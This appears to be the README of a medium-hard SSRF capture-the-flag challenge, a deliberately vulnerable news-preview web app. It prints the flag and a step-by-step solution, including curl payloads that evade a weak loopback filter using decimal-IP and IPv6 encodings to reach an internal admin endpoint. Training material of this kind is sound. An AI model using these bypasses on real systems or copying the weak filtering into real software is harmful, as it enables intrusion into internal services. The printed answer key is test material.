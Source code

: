 # NewsPreview Platform - SSRF CTF Challenge

## 📋 Challenge Summary

**Difficulty**: Medium-Hard  
**Category**: Web Security / SSRF  
**Flag**: `ACNCTF{ssrf_balanced_challenge}`  
**Estimated Time**: 30-60 minutes  

## 🎯 Challenge Overview

This CTF challenge simulates a realistic SSRF vulnerability in a news preview platform. Players must:

1. **Discover** the hidden `/preview` endpoint through reconnaissance
2. **Understand** the WAF filtering mechanisms 
3. **Bypass** IP-based restrictions using encoding techniques
4. **Exploit** SSRF to access internal services
5. **Retrieve** the flag from the internal admin panel

## 🚀 Quick Start

### Option 1: Docker (Recommended for CTF deployment)
```bash
docker compose up --build -d
# Access: http://localhost:3000
```

### Option 2: Local Development
```bash
npm install
./test-local.sh
# Access: http://localhost:3000
```

## 🛡️ Security Features

### WAF Protection
- Blocks `localhost`, `127.0.0.1`, `file://`
- Prevents access to link-local addresses (`169.254.`)
- Only allows HTTP/HTTPS protocols
- Basic regex-based IP filtering

### Bypass Techniques Required
- **Decimal IP encoding**: `2130706433` instead of `127.0.0.1`
- **IPv6 loopback**: `[::1]` instead of `127.0.0.1`
- **Alternative representations**: Hex, octal, etc.

## 🔍 Solution Path

1. **Reconnaissance**
   ```bash
   curl http://localhost:3000/robots.txt
   # View page source for HTML comments
   ```

2. **Discovery**
   ```bash
   # Try the preview functionality
   curl "http://localhost:3000/preview?link=https://example.com"
   ```

3. **Initial SSRF Test** (Blocked)
   ```bash
   curl "http://localhost:3000/preview?link=http://127.0.0.1:5001/admin/flag"
   # Returns: "Access denied: loopback protection."
   ```

4. **WAF Bypass** (Success)
   ```bash
   # Method 1: Decimal IP
   curl "http://localhost:3000/preview?link=http://2130706433:5001/admin/flag"
   
   # Method 2: IPv6
   curl "http://localhost:3000/preview?link=http://[::1]:5001/admin/flag"
   ```

## 📁 File Structure

```
web2/
├── app.js                 # Main vulnerable application
├── internal-service.js    # Internal service with flag
├── package.json          # Node.js dependencies
├── public/
│   └── index.html        # Frontend with hints
├── docker-compose.yml    # Container orchestration
├── Dockerfile.main       # Main app container
├── Dockerfile.internal   # Internal service container
├── test-local.sh         # Local testing script
├── test-solution.sh      # Solution verification
└── README.md            # Detailed documentation
```

## 🧪 Testing & Validation

### Automated Testing
```bash
./test-solution.sh  # Verify all attack vectors
./test-local.sh     # Full local testing with services
```

### Manual Testing
```bash
# Test legitimate functionality
curl "http://localhost:3000/preview?link=https://httpbin.org/html"

# Test WAF blocking
curl "http://localhost:3000/preview?link=http://localhost:5001/admin"

# Test successful bypass
curl "http://localhost:3000/preview?link=http://2130706433:5001/admin/flag"
```

## 🎓 Learning Objectives

- **SSRF Fundamentals**: Understanding server-side request forgery
- **WAF Evasion**: IP encoding and representation techniques  
- **Reconnaissance**: Finding hidden endpoints and services
- **Network Security**: Internal vs external service access
- **Practical Exploitation**: Real-world SSRF scenarios

## 🔧 Customization Options

### Difficulty Adjustments
- **Easier**: Add more obvious hints, reduce WAF complexity
- **Harder**: Add additional WAF rules, require multi-step exploitation

### Flag Customization
Edit `internal-service.js` line with the flag:
```javascript
flag: "ACNCTF{your_custom_flag_here}"
```

### Port Configuration
- Main app: Change `PORT` in `app.js` (default: 3000)
- Internal service: Change `PORT` in `internal-service.js` (default: 5001)

## 🚨 Security Notes

### Deployment Considerations
- Ensure internal service is properly isolated
- Consider network segmentation in production
- Monitor for actual SSRF attempts in logs

### Educational Use Only
This challenge is designed for:
- Authorized penetration testing training
- CTF competitions and educational events  
- Security awareness demonstrations
- Controlled laboratory environments

## 📊 Expected Player Experience

### Beginner Players (45-90 min)
- May need hints to find the preview endpoint
- Require guidance on WAF bypass techniques
- Learn about IP encoding through trial and error

### Intermediate Players (20-45 min)  
- Quickly identify SSRF opportunity
- Understand WAF restrictions from error messages
- Apply known bypass techniques efficiently

### Advanced Players (10-30 min)
- Rapid reconnaissance and exploitation
- May discover multiple bypass methods
- Could identify additional attack vectors

## 🎯 Success Metrics

- **Discovery Rate**: Players finding the `/preview` endpoint
- **Bypass Success**: Players circumventing WAF restrictions  
- **Flag Retrieval**: Successfully obtaining the final flag
- **Technique Diversity**: Different bypass methods used

---

**Challenge Created By**: CTF Team  
**Last Updated**: September 2024  
**Version**: 1.0
